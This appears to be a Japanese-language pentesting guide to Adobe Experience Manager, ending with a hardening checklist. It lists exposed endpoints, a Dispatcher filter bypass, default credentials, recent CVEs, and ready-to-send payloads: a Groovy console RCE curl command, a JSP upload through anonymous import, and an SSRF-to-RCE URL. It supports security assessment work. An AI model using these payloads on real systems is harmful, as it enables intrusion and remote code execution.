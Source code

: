 # AEM (Adobe Experience Manager) Pentesting

{{#include ../../banners/hacktricks-training.md}}

> Adobe Experience Manager (AEM, part of the Adobe Experience Cloud) は、Apache Sling/Felix (OSGi) と Java Content Repository (JCR) の上で動作するエンタープライズCMSです。
> 攻撃者の視点から見ると、AEMインスタンスは非常に頻繁に危険な開発エンドポイント、弱いDispatcherルール、デフォルトの認証情報、そして四半期ごとにパッチが適用される長いCVEのリストを露出します。

以下のチェックリストは、実際のエンゲージメントで繰り返し現れる**外部からアクセス可能な（認証なしの）攻撃面**に焦点を当てています（2022-2025）。

---

## 1. Fingerprinting
```
$ curl -s -I https://target | egrep -i "aem|sling|cq"
X-Content-Type-Options: nosniff
X-Dispatcher: hu1            # header added by AEM Dispatcher
X-Vary: Accept-Encoding
```
他の迅速な指標：
* `/etc.clientlibs/` 静的パスが存在（JS/CSSを返す）。
* `/libs/granite/core/content/login.html` 「Adobe Experience Manager」バナー付きのログインページ。
* `</script><!--/* CQ */-->` HTMLの下部にあるコメント。

---

## 2. 高価値の未認証エンドポイント

パス | 取得できるもの | ノート
---- | ------------- | -----
`/.json`, `/.1.json` | **DefaultGetServlet**を介したJCRノード | よくブロックされるが、*Dispatcherバイパス*（下記参照）が機能する。
`/bin/querybuilder.json?path=/` | QueryBuilder API | ページツリー、内部パス、ユーザー名の漏洩。
`/system/console/status-*`, `/system/console/bundles` | OSGi/Felixコンソール | デフォルトで403; もし公開され、クレデンシャルが見つかれば⇒ バンドルアップロードRCE。
`/crx/packmgr/index.jsp` | パッケージマネージャー | 認証されたコンテンツパッケージを許可→ JSPペイロードのアップロード。
`/etc/groovyconsole/**` | AEM Groovyコンソール | もし公開されれば→ 任意のGroovy / Java実行。
`/libs/cq/AuditlogSearchServlet.json` | 監査ログ | 情報漏洩。
`/libs/cq/ui/content/dumplibs.html` | ClientLibsダンプ | XSSベクター。

### Dispatcherバイパスのトリック
ほとんどのプロダクションサイトは*Dispatcher*（リバースプロキシ）の背後にあります。そのフィルタールールは、許可された静的拡張子を**セミコロンまたはエンコードされた改行の後に追加すること**でバイパスできます：
```
GET /bin/querybuilder.json;%0aa.css?path=/home&type=rep:User HTTP/1.1
```
単一のリクエストは、ユーザープロファイルノードとメールアドレスを頻繁に開示します。P-T Partnersはこの脆弱性に関する良いガイダンスを公開しました。 【】

---

## 3. 一般的な誤設定（2025年にも生き残っている）

1. **匿名POSTサーブレット** – `POST /.json`で`:operation=import`を使用すると、新しいJCRノードを植え付けることができます。Dispatcherで`*.json`のPOSTをブロックすることで修正できます。 【】
2. **世界中から読み取り可能なユーザープロファイル** – デフォルトのACLは`/home/users/**/profile/*`に対して`jcr:read`を全員に付与します。
3. **デフォルトの資格情報** – `admin:admin`、`author:author`、`replication:replication`。
4. **WCMDebugFilter**が有効 ⇒ `?debug=layout`を介した反射型XSS（CVE-2016-7882、レガシー6.4インストールでまだ見つかる）。
5. **Groovyコンソールが公開** – Groovyスクリプトを送信することでリモートコード実行：
```bash
curl -u admin:admin -d 'script=println "pwn".execute()' https://target/bin/groovyconsole/post.json
```

---

## 4. 最近の脆弱性（サービスパックのサイクル）

四半期 | CVE | 影響を受ける | 影響
------- | --- | -------- | ------
2024年12月 | **CVE-2024-43711** | 6.5.21以前 | 不適切な入力検証 → **任意のコード実行**（低権限の認証が必要）。 【】
2024年12月 | CVE-2024-43724/26 | 6.5.21以前 | Move Page WizardにおけるDOM / ストレージ型XSS。 【】
2023年12月 | CVE-2023-48452/68 | ≤ 6.5.18 | 作成されたURLを介したDOMベースのXSS。 【】
2022年12月 | CVE-2022-30683 | ≤ 6.5.13 | 暗号設計の欠陥 → 秘密の復号（低権限の資格情報が必要）。 【】

常に顧客のサービスパックに一致する*APSB*の公告を確認し、最新の**6.5.22**または*Cloud Service 2024.11*をリクエストしてください。

---

## 5. 悪用スニペット

### 5.1 DispatcherバイパスによるRCE + JSPアップロード
匿名書き込みが可能な場合：
```
# 1. Create a node that will become /content/evil.jsp
POST /content/evil.jsp;%0aa.css HTTP/1.1
Content-Type: application/x-www-form-urlencoded

:contentType=text/plain
jcr:data=<% out.println("pwned"); %>
:operation=import
```
Now request `/content/evil.jsp` – JSPはAEMプロセスユーザーで実行されます。

### 5.2 SSRFからRCEへの攻撃（歴史的 < 6.3）
`/libs/mcm/salesforce/customer.html;%0aa.css?checkType=authorize&authorization_url=http://127.0.0.1:4502/system/console`
`aem_ssrf2rce.py`は**aem-hacker**からフルチェーンを自動化します。 【】

---

## 6. ツール

* **aem-hacker** – スイスアーミーナイフの列挙スクリプト、ディスパッチャーバイパス、SSRF検出、デフォルトクレデンシャルチェックなどをサポートします。
```bash
python3 aem_hacker.py -u https://target --host attacker-ip
```【】
* **コンテンツブルートフォース** – 隠れたコンポーネントを発見するために`/_jcr_content.(json|html)`を再帰的にリクエストします。
* **osgi-infect** – クレデンシャルが利用可能な場合、`/system/console/bundles`を介して悪意のあるOSGiバンドルをアップロードします。

---

## 7. ハードニングチェックリスト（レポートの推奨事項用）

1. インスタンスを**最新の累積サービスパック**（2025年7月現在：6.5.22）に保つ。
2. デフォルトアカウントを削除/ローテーションし、SSO/SAMLを強制する。
3. **ディスパッチャーフィルター**を厳格にし、匿名ユーザーに対して`;`、エンコードされた改行、`*.json`または`*.querybuilder.json`を拒否する。
4. コンソール（`/system/console`、`/crx/*`、`/etc/groovyconsole`）をIP許可リストで無効化または保護する。
5. Adobeが提供する*匿名権限ハードニング*パッケージを適用する。

## 参考文献

* Adobe Security Bulletin APSB24-69 – “Adobe Experience Managerのセキュリティ更新（2024年12月）”。
* 0ang3el – aem-hackerツール（GitHub）。
{{#include ../../banners/hacktricks-training.md}}
